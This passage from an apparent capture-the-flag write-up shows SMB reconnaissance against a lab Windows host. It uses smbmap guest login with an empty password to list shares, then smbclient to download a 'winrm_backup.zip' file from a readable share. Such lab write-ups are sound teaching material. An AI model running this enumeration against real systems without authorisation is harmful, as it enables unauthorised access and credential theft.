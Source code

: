 ```
|   date: 2025-07-12T08:53:27
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 7h59m59s, deviation: 0s, median: 7h59m59s
```
## User
Enumerating SMB with `guest`, we find a share named `Shares`
```
┌──(tsunami㉿coffee)-[~]
└─$ smbmap -u 'guest' -p '' -H 10.129.161.13                                        

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
-----------------------------------------------------------------------------
SMBMap - Samba Share Enumerator v1.10.7 | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 1 authenticated session(s)                                                          
                                                                                                                             
[+] IP: 10.129.161.13:445       Name: 10.129.161.13             Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share 
        Shares                                                  READ ONLY
        SYSVOL                                                  NO ACCESS       Logon server share 
[*] Closed 1 connections 
```
![capture-0](capture-0.PNG)

Using smbclient, we can read `Shares` which eventually leads us to `winrm_backup.zip`.
```
smb: \Dev\> ls
  .                                   D        0  Mon Oct 25 20:40:06 2021
  ..                                  D        0  Mon Oct 25 20:40:06 2021
  winrm_backup.zip                    A     2611  Mon Oct 25 16:46:42 2021

                6367231 blocks of size 4096. 1233081 blocks available
smb: \Dev\> get winrm_backup.zip 
getting file \Dev\winrm_backup.zip of size 2611 as winrm_backup.zip (15.5 KiloBytes/sec) (average 15.5 KiloBytes/sec)
smb: \Dev\> 

```
![capture-1](capture-1.PNG)
